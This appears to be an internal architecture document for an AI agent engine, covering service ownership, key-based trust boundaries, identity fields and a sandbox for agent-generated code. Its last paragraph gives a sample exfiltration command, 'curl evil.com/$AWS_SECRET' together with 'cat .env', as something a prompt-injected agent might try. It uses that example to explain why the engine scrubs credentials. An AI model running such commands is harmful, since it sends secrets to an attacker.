

## System Context — The Engine and Its World

The engine is the **source of truth** for its wire contracts. It is one node in a small constellation of services. Understanding which system owns what is the single most important boundary in the whole architecture. (The internal codenames used throughout — *citadel*, *herald*, *raven*, *bap-engine*, *bap-backend* — are defined once in the [Glossary](#sec-90-glossary-md).)

### Who owns what (the responsibility split)

| System | Owns | Does NOT own |
|---|---|---|
| **Product frontend** | The UI, rendering `Block` frames (the wire envelope is canonical in [Block Wire Contract](#sec-25-block-contract-md)) + crafts, collecting user input | Any agent logic, any credential |
| **Orchestrator (bap-engine)** | Provisioning engine containers, injecting `ENGINE_ID` + key hashes, **hot key rotation** (mechanism in [Server/Bootstrap/Auth](#sec-30-integration-server-md)), auto-restart on failed deep-health, hosting config | The agent runtime itself |
| **The Engine** (this repo) | The entire agent runtime: loop, memory, tools, sandbox, compaction, the Block wire, connection lifecycle, credential vaulting | **Provider API keys** (citadel holds them), **quota/entitlement** (citadel enforces), hosting config (bap-engine owns) |
| **citadel** | The model gateway — holds all provider keys, fans out to Anthropic/OpenAI/Gemini, **enforces quota/budget/subscription**, returns the quota snapshot | Agent logic |
| **bap-backend** (connector control plane) | The **browser leg** of connector OAuth — redirecting the user to the `oauth_url` the engine minted and returning the callback; the **control plane** that drives the engine's connector lifecycle synchronously over the SDK `/assets/*` API (no webhooks) | The MCP tool-execution itself, and the OAuth mechanics around it: the engine self-brokers discovery and client registration, mints the authorization URL, exchanges and refreshes tokens, and holds custody (see [Asset Directory & Channels](#sec-56-asset-directory-channel-md)) |
| **MCP connector servers** | The external tools (Gmail, Attio, …) the agent calls | — |

### The trust boundaries

1. **Product & control plane ⇄ Engine** — authenticated by `x-engine-key` (`sk-sept-…`, stored only as a SHA-256 hash, constant-time compared, hot-rotatable; the HTTP surface and the auth/rotation mechanism are canonical in [Server/Bootstrap/Auth](#sec-30-integration-server-md)). Both the **product frontend** (which calls `/execute`) and **bap-backend** (the connector control plane, which drives `/assets/*`) present the same engine key — there is no separate webhook credential. Every HTTP body is Unicode-sanitized; every response is codename-scrubbed. The full external-connector credential lifecycle (MultiFernet at rest, best-effort RFC 7009 revoke on disconnect) is canonical in [Asset Directory & Channels](#sec-56-asset-directory-channel-md).
2. **Orchestrator ⇄ Engine** — a separate `x-admin-key` for the key-rotation control plane only. The orchestrator never sees plaintext keys — it sends pre-computed hashes.

### The two identities on the wire

Two names carry identity across every boundary, and each has exactly one spelling — there is no legacy alias anywhere, and no boundary mapping layer to translate one:

- **`connection_id`** — the connection identity, used uniformly by the internal plumbing, the `connections` table, and the `/assets/*` HTTP API that bap-backend drives.
- **`thread_id`** — the conversation identity, emitted on every frame of the `/execute` block envelope (canonical in [Block Wire Contract](#sec-25-block-contract-md)).

Both replaced earlier names (`ref_id` and `task_id`) in a coordinated v2 rename. That migration is complete and the old names are gone from the wire, so a consumer sending either one gets no silent translation: it simply fails to match.

### The internal trust ring (inside the engine)

Even inside the container there is a second trust boundary: the **engine process is trusted**, but **untrusted agent-generated code runs one ring deeper** inside `bwrap + seccomp + Landlock`. The two-ring trust model, container hardening, the end-to-end defense ladder, and the `subprocess_env` contract are canonical in [Security & Deployment](#sec-70-security-deployment-md). The engine holds no provider keys, scrubs cloud credentials from every subprocess env, and vaults external-connector tokens encrypted — so a prompt-injected agent that runs `cat .env` or `curl evil.com/$AWS_SECRET` finds nothing useful.
